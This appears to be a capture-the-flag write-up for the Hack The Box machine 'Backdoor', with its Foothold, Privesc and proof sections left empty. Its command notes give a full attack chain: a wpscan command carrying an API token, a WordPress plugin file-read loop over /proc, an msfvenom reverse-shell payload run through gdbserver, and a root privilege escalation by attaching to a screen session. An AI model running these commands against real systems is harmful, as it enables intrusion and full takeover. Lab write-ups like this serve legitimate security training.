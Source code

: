 # Summary



## about target

tip:  10.129.96.68

hostname:  Backdoor

Difficulty:  Easy



## about attack

+ Lfi, list proc file to find the service cmdline and port.
+ gdbserver exploit
+ Screen root privesc





**attack note**

```bash
Backdoor / 10.129.96.68


---- Interesting
-- from 1337, sec_notes/


---- Enum 


wpscan --url http://10.129.96.68  --api-token eHmdOsNYBMMTmCxORyxOKVa5MZnegduDGRkGemtaFgo -e ap,u,at -t 10 --plugins-detection aggressive

for i in $(seq 1 1000); do curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/${i}/cmdline --output - | cut -d "/" -f 8- | sed  "s/<script>.*//g" > ${i}; done

find . -type f -size +20c -exec cat {} \;
---- Foothold
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.14 LPORT=9001 PrependFork=true -f elf -o binary.elf

chmod +x binary.elf

gdb binary.elf

target extended-remote 10.129.96.68:1337

# Upload elf file
remote put binary.elf binary.elf

# Set remote executable file
set remote exec-file /home/user/binary.elf

# Execute reverse shell executable
run

---- System

screen -ls 
screen -r root/
export TERM=xterm
screen -r root/
```







# Enum

## nmap scan



```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip


```







![image-20230111203620262](./images/image-20230111203620262.png)



![image-20230111235031104](./images/image-20230111235031104.png)



# Foothold





# Privesc





## proof

```bash


```



